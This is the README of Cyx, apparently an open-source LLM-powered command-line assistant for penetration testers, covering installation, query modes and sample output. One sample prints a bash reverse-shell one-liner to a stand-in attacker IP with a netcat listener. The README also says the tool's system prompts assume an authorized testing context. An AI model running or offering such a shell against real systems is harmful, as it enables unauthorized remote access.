

# Cyx

> Command-first cybersecurity companion for penetration testers and security researchers

Cyx is an LLM-powered terminal tool that delivers instant, executable security commands with streaming responses. Built for speed and accuracy, it provides command-first answers optimized for professionals in the field.

## Key Features

- **Streaming responses** with real-time progress indicators
- **Command-first output** - executable commands before explanations
- **Learn mode** - detailed educational breakdowns with sources
- **Full source attribution** - every response tracks provider, model, and web search status
- **Dual LLM support** - Perplexity (web search) or Groq (fast inference)
- **Interactive sessions** - conversation history for follow-up questions
- **Flexible output modes** - quiet, verbose, no-tty for scripting

## Quick Start

```bash
# Clone and build
git clone https://github.com/neur0map/cyx.git
cd cyx
cargo build --release

# Setup (first time - interactive wizard)
./target/release/cyx setup

# Use
cyx "nmap stealth scan"
cyx "sql injection bypass waf"
cyx --learn "linux privilege escalation"
```

## Architecture



## Installation

### Prerequisites

- Rust 1.70 or higher
- API key from [Perplexity](https://www.perplexity.ai/settings/api) or [Groq](https://console.groq.com)

### Build from Source

```bash
git clone https://github.com/neur0map/cyx.git
cd cyx
cargo build --release

# Optional: install to PATH
cargo install --path .
```

### Initial Configuration

Run the interactive setup wizard:

```bash
cyx setup
```

This creates `~/.config/cyx/config.toml` with your API key (stored with 600 permissions).

## Usage

### One-Shot Queries

```bash
# Quick command lookup
cyx "reverse shell one liner"
cyx "hydra ssh brute force"

# Learn mode with detailed explanations
cyx --learn "metasploit meterpreter"
cyx -l "nmap service detection"
```

### Interactive Mode

```bash
cyx
cyx> how to crack wifi
cyx> /clear          # Clear conversation history
cyx> /help           # Show available commands
cyx> /exit
```

### CLI Options

```
-q, --quiet          Minimal output (response only, no formatting)
-v, --verbose        Detailed progress information
-l, --learn          Educational mode with detailed breakdowns
    --no-tty         Disable TTY features for scripting
-h, --help           Show help information
```

### Configuration Management

```bash
# View current configuration
cyx config show

# Change LLM provider
cyx config set provider perplexity
cyx config set provider groq

# Re-run setup wizard
cyx setup
```

Configuration file: `~/.config/cyx/config.toml`

## Example Output

### Normal Mode

Responses stream in real-time with progress indicators:

```
⠹ Streaming... 437 chars [2s]

╭─── RESPONSE ──────────────────────────────────────────────
│ ```bash
│ nmap -sS <target>
│ ```
│ TCP SYN stealth scan - doesn't complete handshake. Requires root.
╰──────────────────────────────────────────────────────────

[*] SOURCES
───────────────────────────────────────
Provider: Perplexity (sonar-pro)
Search: Yes (performed web search)

Links:
  - nmap documentation: https://nmap.org/book/synscan.html
  - TCP protocol (RFC 793): https://www.ietf.org/rfc/rfc793.txt
```

### Learn Mode

Educational mode with detailed technical breakdowns:

```
╭─── RESPONSE ──────────────────────────────────────────────
│ ```bash
│ nmap -sS <target>
│ ```
│ TCP SYN scan - doesn't complete handshake, harder to detect. Requires root.
│
│ Tool: nmap (Network Mapper)
│   Industry-standard network scanner for reconnaissance and security auditing
│   Created by Gordon Lyon (Fyodor), GPL license
│
│ Flags:
│   -sS    TCP SYN Scan (Stealth Scan)
│          - Sends TCP SYN packet to each target port
│          - Waits for SYN-ACK (open) or RST (closed) response
│          - Sends RST to close connection before handshake completes
│          - Requires root/sudo for raw socket access
│
│ How it works:
│   1. Sends TCP SYN packet to target port
│   2. If open: receives SYN-ACK, marks as open, sends RST
│   3. If closed: receives RST, marks as closed
│   4. If filtered: no response or ICMP unreachable
│
│ Advantages:
│   - Fast, doesn't complete full TCP handshake
│   - Stealthy, may not appear in application logs
│   - Reliable port state detection
│
│ Disadvantages:
│   - Requires root privileges
│   - Can be detected by modern IDS/IPS
│
│ When to use:
│   - Default choice for most port scans
│   - Initial network reconnaissance
│
│ Alternatives:
│   -sT    TCP connect (no root, slower)
│   -sN    TCP NULL scan (bypass some firewalls)
│
│ Example usage:
│   nmap -sS 192.168.1.100
│   nmap -sS -p 22,80,443 example.com
╰──────────────────────────────────────────────────────────

[*] SOURCES
───────────────────────────────────────
Provider: Perplexity (sonar-pro)
Search: Yes (performed web search)

Links:
  - nmap official documentation: https://nmap.org/book/
  - RFC 793 (TCP): https://www.ietf.org/rfc/rfc793.txt
  - nmap man page: https://linux.die.net/man/1/nmap
```

### Quiet Mode

Minimal output for scripting and piping:

```
$ cyx -q "reverse shell bash"

bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

One-liner reverse shell to attacker IP:port. Run nc -lvnp 4444 on attacker first.
```

## Technical Details

### Streaming Implementation

Cyx uses Server-Sent Events (SSE) for real-time response streaming:
- Progress indicators with character count tracking
- Unicode box drawing for structured output formatting
- Thread-safe streaming with Arc and Mutex patterns
- Average response time: 2-5 seconds

### Security Measures

- **Secure storage** - API keys stored with 600 permissions in `~/.config/cyx/config.toml`
- **Read-only operation** - Provides commands but never executes them
- **Timeout protection** - All API calls timeout after 120 seconds
- **Local-first** - All sensitive data remains on your machine

### System Prompts

Cyx uses domain-specific system prompts optimized for security professionals:

**Normal mode**: Command-first responses with minimal explanation
- Assumes authorized testing context
- Prioritizes executable commands over theory
- Targets professional pentesters under time pressure

**Learn mode**: Educational responses with technical depth
- Detailed flag breakdowns and protocol explanations
- Comprehensive source attribution with full URLs
- Technical advantages, disadvantages, and alternatives

## Documentation

- [Complete Feature List](docs/FEATURES.md) - All capabilities and modes
- [Testing Report](docs/TESTING.md) - Validation and benchmarks
- [Full Documentation](docs/FULL_README.md) - Extended guide

## Disclaimer

**For authorized security testing, educational purposes, and defensive research only.**

This tool is designed for:
- Professional penetration testers with written authorization
- Security students in controlled lab environments
- Capture The Flag (CTF) competitions
- Defensive security and threat analysis

Always obtain explicit permission before testing systems you don't own.

## License

MIT License - See [LICENSE](LICENSE) for details.
